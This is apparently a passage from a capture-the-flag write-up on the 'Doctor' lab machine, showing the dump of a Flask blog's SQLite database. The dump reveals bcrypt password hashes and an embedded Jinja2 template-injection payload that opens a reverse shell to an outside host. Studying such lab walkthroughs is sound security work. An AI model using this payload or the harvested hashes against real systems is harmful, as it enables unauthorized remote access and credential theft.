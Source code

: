 Checked the `blog` directory first. Moved into `flaskblog` directory:
```Console
web@doctor:~/blog/flaskblog$ ls -la
total 88
drwxr--r-- 10 web web  4096 Okt 24 00:14 .
drwxr-xr-x  3 web web  4096 Sep 22  2020 ..
-rwxr--r--  1 web web   302 Sep  5  2020 config.py
drwxr--r--  3 web web  4096 Jul 27  2020 errors
-rwxr--r--  1 web web   904 Jul 26  2020 __init__.py
drwxr--r--  3 web web  4096 Sep 22  2020 main
-rwxr--r--  1 web web  1678 Jul 21  2020 models.py
drwxr--r--  3 web web  4096 Sep 22  2020 posts
drwxrwxr-x  2 web web  4096 Sep  5  2020 __pycache__
-rw-r--r--  1 web web 36864 Okt 24 00:14 site.db
drwxr--r--  3 web web  4096 Sep 23  2020 static
drwxr--r--  3 web web  4096 Sep 23  2020 templates
drwxr--r--  3 web web  4096 Jul 21  2020 tmp
drwxr--r--  3 web web  4096 Sep 23  2020 users
```

`site.db` looks interesting...
```Console
web@doctor:~/blog/flaskblog$ cat site.db
��u�MtablepostpostCREATE TABLE post (
	id INTEGER NOT NULL,
	title VARCHAR(100) NOT NULL,
	date_posted DATETIME NOT NULL,
	content TEXT NOT NULL,
	user_id INTEGER NOT NULL,
	PRIMARY KEY (id),
	FOREIGN KEY(user_id) REFERENCES user (id)
)�~�_tableuseruserCREATE TABLE user (
	id INTEGER NOT NULL,
	username VARCHAR(20) NOT NULL,
	email VARCHAR(120) NOT NULL,
	image_file VARCHAR(20) NOT NULL,
	password VARCHAR(60) NOT NULL,
	PRIMARY KEY (id),
	UNIQUE (username),
	UNIQUE (email)
:�:��wd_'#�testtest@test.comdefault.gif$2b$12$jtQalxsL7pUnKZSgwoOGx.0rsAWWvd4aGOR8qfAEIn/TmM8cH11qic-#�adminadmin@doctor.htbdefault.gif$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
����#	TestUse
test    admin
�DDDDDDD��O�[A{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.77\",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}2021-10-23 22:24:46.864956Hello!Z#?m	Doctor blog2020-09-18 20:48:37.55555A free blog to share medical knowledge. Be kind!
```

Hash! Based on the table listed above:
username:admin
e-mail: admin@doctor.htb
image_file: default.gif
Password: $2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
